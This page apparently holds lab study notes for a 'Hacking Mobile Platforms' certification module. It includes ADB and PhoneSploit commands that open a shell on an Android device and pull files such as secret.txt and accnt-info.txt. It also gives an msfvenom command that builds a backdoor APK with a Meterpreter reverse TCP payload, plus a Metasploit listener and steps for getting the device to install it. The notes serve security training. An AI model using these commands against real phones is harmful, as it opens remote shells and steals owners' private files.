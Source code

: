 # 17 - Hacking Mobile

#### <mark style="color:blue;">**Module 17 - Hacking Mobile Platforms**</mark>

## Download a file from Android device

### ADB Tool

```bash
adb devices -l

# Connection Establish Steps
adb connect 192.168.0.4:5555
adb devices -l
adb shell  

# Download a File from Android using ADB tool
adb pull /sdcard/log.txt C:\Users\admin\Desktop\log.txt 
adb pull sdcard/log.txt /home/mmurphy/Desktop
```

### PhoneSploit

```bash
git clone https://github.com/aerosol-can/PhoneSploit
cd PhoneSploit
pip3 install colorama
#OR
python3 -m pip install colorama

python3 phonesploit.py

# Type 3 and Press Enter to Connect a new Phone OR Enter IP of Android Device
# Type 4, to Access Shell on phone

pwd
ls
cd sdcard
ls
cd Download

#Download File using PhoneSploit
9. Pull Folders from Phone to PC

#Enter the Full Path of file to Download
sdcard/Download/secret.txt
```

## Check entropy and hash of elf file using ADB Tool

<pre class="language-bash"><code class="lang-bash">#Perform deep scan of the elf files and obtain the last 4 digits of SHA 384 hash of the file with highest entropy value
<strong>
</strong><strong>adb connect 192.168.0.4:5555 # Connection Establish Steps
</strong>adb shell  

#1. check elf file with highest entropy
ls sdcard/scan #check if there're .elf files
sudo adb pull /sdcard/scan #download entire dir including .elf files
ent -h #ent tool options, if we haven't it: apt install ent
ent first_file.elf #Entropy value 3.28412 bits, it has highest value of entropy.
ent second_file.elf #Entropy value 1.15679 bits

#2. check the last 4 digits of SHA 384
sha384sum --help
sha384sum first_file.elf
#select only the last 4 digits of hash.
</code></pre>

## Generating and Executing Payloads for Android

#### Setup Android

* Open terminal, run `su`
* Run `ip addr add 10.10.10.69/24 dev eth0`

#### Generate Payload&#x20;

* `msfvenom -p android/meterpreter/reverse_tcp --platform android -a dalvik LHOST=10.10.10.11 R > Desktop/Backdoor.apk` R raw
* Host the payload and run a listener on Kali
* Type `use exploit/multi/handler`
* Type `set payload android/meterpreter/reverse_tcp`
* Type `set LHOST 10.10.10.11`
* Start listener, type `exploit -j -z`
* Browse link of file to start meterpreter session.

#### Exploit Execution

* Open kali hosted link.
* Download APK using es file downloader.
* Install and run.

## **Exploit the Android Platform through ADB using PhoneSploit**

* cd Phonesploit
* python3 -m pip install colorama
* python3 phonesploit.py
* 3
* 10.10.10.14
* 4
* pwd
* cd sdcard
* cd Download
* pwd
* cd sdcard
* cd downloads
* cat accnt-info.txt&#x20;
